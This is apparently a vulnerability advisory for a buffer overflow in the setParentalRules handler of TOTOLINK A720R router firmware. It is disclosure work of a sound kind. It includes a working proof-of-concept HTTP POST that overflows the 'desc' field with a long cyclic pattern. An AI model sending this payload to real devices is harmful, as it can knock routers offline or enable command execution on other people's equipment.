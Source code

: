 # Information



**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** A720R

**Affected firmware version:** V4.1.5cu.630_B20250509

**Firmware download address:** [TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html)

# Overview

A critical buffer overflow vulnerability was found on the TOTOLINK A720R router due to strcpy(dest, src); The failure to perform the necessary boundary checks results in a buffer overflow vulnerability that allows an attacker to perform a denial-of-service attack or even arbitrary command execution by sending malicious HTTP POST packets

# Vulnerability details

When the request path is setParentalRules, the corresponding function sub_41AAD8

![](img/1.png)

It can be found that there is a buffer overflow vulnerability here, but the precondition needs to be met and n2 is equal to 1, that is, the value of addEffect is 1

![](img/2.png)

# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 30 Jun 2023 08:05:46 GMT
If-None-Match: "106164761"
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 378

{"topicurl":"setParentalRules",
"token":"2e2e7715039a8b744b974ba53c27537d"
"addEffect":"1",
"mac":"1234",
"desc":"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
}
```

![](img/3.png)

![](img/4.png)
